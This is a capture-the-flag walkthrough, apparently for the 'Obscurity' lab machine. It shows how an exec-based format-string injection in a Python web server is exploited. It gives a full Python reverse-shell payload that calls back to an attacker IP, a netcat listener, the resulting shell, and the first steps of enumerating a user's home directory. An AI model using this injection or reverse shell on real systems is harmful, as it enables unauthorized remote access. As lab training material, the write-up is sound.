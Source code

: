 When `exec` is called, it executes whatever is passed to it. In this case, it is setting the output variable with an insecure format call. We are able to abuse this through injection to get remote code execution and spawn a shell.

The ending single quote makes it tricky but we are able to set the output variable to our request, call arbitrary code, and set a nonsense variable to properly close the ending quote. The payload would look like this:

```python
path = "http://10.10.10.168:8080/a';{};a='a"
# Standard Python reverse shell payload
payload = 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.10.14.120%22,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22])'
```

We are trying to retrieve a file called `a` which doesn't exist but it doesn't matter because we just care about the remote code execution that will take place. Normally, it would be convenient to use a short `bash` or `nc` shell but the only binary we can confirm on the system is `python3` itself. Now, we will start up a listener on our machine using `nc` and send our request with payload and we should be connected.


Start the netcat listener:
```
# nc -lvnp 1234
```

Making the request with our payload inserted:

```python
>>> import requests
>>> requests.get(path.format(payload))
```

Receiving the call back on our listener:
```
# nc -lvnp 1234
$ hostname
obscurity
```

## User

Now that we have a shell on the machine, we can begin to gather information on the system. Let's see the other users:

```
$ ls -l /home
total 4
drwxr-xr-x 7 robert robert 4096 Dec  2 09:53 robert
```

We see that there is a user Robert and we are allowed to read their home directory. Let's see if we can find anything useful.

```
$ ls -l /home/robert
total 24
drwxr-xr-x 2 root   root   4096 Dec  2 09:47 BetterSSH
-rw-rw-r-- 1 robert robert   94 Sep 26 23:08 check.txt
-rw-rw-r-- 1 robert robert  185 Oct  4 15:01 out.txt
-rw-rw-r-- 1 robert robert   27 Oct  4 15:01 passwordreminder.txt
-rwxrwxr-x 1 robert robert 2514 Oct  4 14:55 SuperSecureCrypt.py
-rwx------ 1 robert robert   33 Sep 25 14:12 user.txt
```
